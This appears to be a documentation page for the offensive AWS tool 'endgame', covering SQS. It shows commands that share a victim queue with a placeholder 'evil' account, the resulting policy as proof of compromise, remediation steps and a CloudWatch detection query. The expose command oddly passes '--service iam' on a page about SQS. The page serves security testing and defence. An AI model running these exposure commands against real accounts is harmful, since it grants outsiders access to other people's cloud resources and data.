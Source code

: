 # SQS

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* To verify that the SQS queue has been shared with a rogue user, run the following from the victim account:

```bash
export QUEUE_URL=(`aws sqs get-queue-url --queue-name test-resource-exposure | jq -r '.QueueUrl'`)

aws sqs get-queue-attributes --queue-url $QUEUE_URL --attribute-names Policy
```

* Observe that the contents match the example shown below.

## Example

The policy below allows the Evil Principal's account ID (`999988887777` access to `sqs:*` to the victim resource (`arn:aws:sqs:us-east-1:111122223333:test-resource-exposure`), indicating a successful compromise.


```json
{
    "Attributes": {
        "Policy": "{\"Version\":\"2008-10-17\",\"Id\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure/SQSDefaultPolicy\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"}]}"
    }
}

```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SQS Queues are only shared with trusted accounts, and that the trusted accounts truly need access to the SQS Queue.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  SQS Queues. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SQS Queues**: Tightly control access to the following IAM actions:
  - [sqs:AddPermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_AddPermission.html): _Adds a permission to a queue for a specific principal._
  - [sqs:RemovePermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_RemovePermission.html): _Revokes any permissions in the queue policy that matches the specified Label parameter._
  - [sqs:GetQueueAttributes](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueAttributes.html): _Gets attributes for the specified queue. This includes retrieving the list of principals who are authorized to access the queue._
  - [sqs:GetQueueUrl](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueUrl.html): _Returns the URL of an existing queue._
  - [sqs:ListQueues](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_ListQueues.html): _Returns a list of your queues._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='sqs.amazonaws.com' AND (eventName='AddPermission' or eventName='RemovePermission')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws sqs add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sqs/add-permission.html)
* [aws sqs get-queue-attributes](https://docs.aws.amazon.com/cli/latest/reference/sqs/get-queue-attributes.html)
